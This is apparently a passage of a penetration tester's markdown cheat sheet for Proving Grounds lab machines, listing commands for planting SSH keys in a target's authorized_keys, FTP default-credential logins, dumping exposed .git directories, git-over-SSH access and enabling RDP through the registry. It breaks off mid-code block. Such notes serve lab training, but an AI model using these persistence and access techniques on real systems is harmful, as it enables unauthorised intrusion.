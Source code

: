 **ssh exploitation**
- `scp -O /home/kali/Documents/engagements/proving-grounds/Sorcerer/max/authorized_keys max@192.168.240.100:/home/max/.ssh/authorized_keys`
  - `mv /home/kali/Documents/engagements/proving-grounds/Sorcerer/max/ /home/kali/.ssh/id_rsa`
  - https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/sorcerer

**Create ssh keys**
- `sudo ssh-keygen`
- `sudo cp /root/.ssh/id_rsa.pub authorized_keys`
- `cd /home/benoit/.ssh`
- `put authorized_keys`
- `sudo ssh benoit@192.168.218.233 -i /root/.ssh/id_rsa`

## FTP notes

- `ftp -p IP 1221`
  - `force passive mode`
- `put FILE`
- `get FILE`
- try default creds (`ftp:ftp`, `anonymous:`, etc.)
- Consider that your uploads might end up in the directory `/var/ftp`
- Try `binary` for binary mode if the ftp is not working well


## Git commands / shell

- Basic git process
  - `git clone <source>`
  - `git add -A`
  - `git commit -m "comment"`
  - `git push origin master`
- When access to git shell
  - `GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@IP:/git-server`
  - `GIT_SSH_COMMAND='ssh -i /home/kali/Documents/engagements/proving-grounds/Hunit/id_rsa -p 43022' git push origin master`
- GitTools
  1. `./gitdumper.sh http://IP/.git/ git-repo-dir`
  2. `git checkout -- .`


## Remote Desktop

- `xfreerdp /u:username /p:password /cert:ignore /v:IP`
- `xfreerdp /u:username /p:password /d:domain.com /v:IP`
- `rdesktop -u username -p password IP`
- `remmina`
- ```PowerShell
  # enable RDP
  Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
